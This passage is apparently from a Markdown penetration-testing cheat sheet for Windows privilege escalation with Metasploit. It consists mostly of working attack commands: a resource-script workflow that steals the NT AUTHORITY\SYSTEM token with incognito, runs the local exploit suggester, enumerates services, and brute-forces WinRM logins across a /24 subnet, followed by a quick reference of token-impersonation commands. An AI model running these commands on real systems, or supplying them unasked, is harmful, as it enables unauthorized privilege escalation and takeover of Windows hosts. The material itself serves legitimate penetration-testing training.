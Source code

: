 ### **⚙️ Multiple Method Workflow:**

```bash
# Comprehensive privilege escalation workflow
#!/bin/bash
# Save as privilege_escalation_workflow.rc

# Method 1: Token Impersonation
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
getuid

# If token impersonation fails, try Method 2
background
use post/multi/recon/local_exploit_suggester  
set SESSION 1
exploit

# Method 3: If no local exploits, try service enumeration
sessions -i 1
shell
sc query type= service state= all
wmic service get name,pathname,displayname,startmode | findstr /i "auto"
exit

# Method 4: WinRM if network access available
background
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_network/24
set USERNAME administrator
set PASSWORD password123
exploit
```

---

## 📊 Quick Command Reference

### **Essential Commands Summary:**

#### **Basic Status Commands:**
```bash
meterpreter > getuid                           # Check current user
meterpreter > sysinfo                          # System information
meterpreter > getprivs                         # Current privileges
meterpreter > ps                               # Running processes
```

#### **Token Impersonation Commands:**
```bash
meterpreter > load incognito                   # Load token module
meterpreter > list_tokens -u                   # List user tokens
meterpreter > list_tokens -g                   # List group tokens
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"  # Steal SYSTEM token
meterpreter > rev2self                         # Return to original user
```
